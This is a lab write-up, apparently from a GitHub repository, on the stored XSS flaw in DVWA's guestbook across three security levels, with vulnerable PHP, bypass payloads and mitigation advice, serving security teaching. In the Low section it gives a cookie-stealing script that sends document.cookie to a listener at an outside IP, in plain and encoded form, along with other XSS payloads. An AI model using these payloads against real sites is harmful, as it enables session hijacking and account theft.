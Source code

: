 
# 📘 DVWA – Stored XSS (Guestbook) Writeup

This document provides a full analysis of the **Stored Cross-Site Scripting (XSS)** vulnerability in the DVWA "Guestbook" module across Low, Medium, and High security levels.

---

## 🔍 Vulnerable Code Review

### 🔓 Low Security

```php
$message = trim( $_POST[ 'mtxMessage' ] );
$name    = trim( $_POST[ 'txtName' ] );

$message = stripslashes( $message );
$message = mysqli_real_escape_string( $conn, $message );
$name = mysqli_real_escape_string( $conn, $name );

$query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
```

- ❌ **No output encoding**
- ❌ **No HTML filtering**
- ❌ **Stored raw in DB, rendered unsanitized**

### ✅ Exploitation

Payload:
```html
<script>alert("Stored XSS")</script>
```
Will be stored in the database and **executed every time** someone views the guestbook.

you can also use a listener check for incoming requests in the terminal when someone clicks on the stored XSS

```payload: <script>new Image().src='http://192.168.1.7:1339/bogus.php?output='+document.cookie;</script>
encoded payload: <script>new+Image().src%3d'http%3a//192.168.1.7%3a1339/bogus.php%3foutput%3d'%2bdocument.cookie%3b</script>
```

---

### 🟡 Medium Security

```php
$message = strip_tags( addslashes( $message ) );
$message = mysqli_real_escape_string( $conn, $message );
$message = htmlspecialchars( $message );
$name = str_replace( '<script>', '', $name );
```

- ✅ Some tag filtering with `strip_tags()`
- ⚠️ Only removes `<script>` exactly
- ❌ Allows event handlers like `onmouseover`
- ❌ Still reflects in guestbook

### 🧪 Bypass Example

Payload:
```html
<img src=x onerror=alert('XSS')>
```

This bypasses the `<script>` filter entirely and is stored.

---

### 🔐 High Security

```php
$message = strip_tags( addslashes( $message ) );
$message = mysqli_real_escape_string( $conn, $message );
$message = htmlspecialchars( $message );

$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
```

- ✅ Filters `<script>` using regex
- ✅ Applies `htmlspecialchars()` for encoding
- ⚠️ Regex bypasses possible with malformed tag sequences
- ✅ Safer but still imperfect

### ⚔️ Advanced Bypass (Theoretical)

If the HTML rendering is weak or double encoded elsewhere, payloads using:
```html
<svg onload=alert(1)>
```
might still slip through, depending on output context.

---

## 🔍 Vulnerability Summary

| Security Level | Issues Present | Can Store Payload? | Executable in Browser? |
|----------------|----------------|---------------------|-------------------------|
| Low            | No filtering, no encoding | ✅ Yes | ✅ Yes |
| Medium         | Poor filtering, tag-specific | ✅ Yes | ✅ With tag bypass |
| High           | Regex/script filtering, encoded | ✅ Yes | ⚠️ Depends on context |

---

## 🔐 Mitigation Recommendations

| ❌ Vulnerability | ✅ Secure Approach |
|------------------|--------------------|
| No encoding      | Use `htmlspecialchars()` or templating engine |
| Bad filtering    | Use CSP, sanitize on input and encode on output |
| Regex filtering  | Use vetted libraries like DOMPurify (JS) or OWASP Java Encoder |

---

## 📌 Key Lessons

- **Stored XSS** is dangerous due to **persistent payloads**.
- Input sanitization is not enough: **encode on output**.
- **Filter evasion** is easy with modern obfuscation techniques.
- Defense-in-depth: **combine validation, encoding, and CSP**.

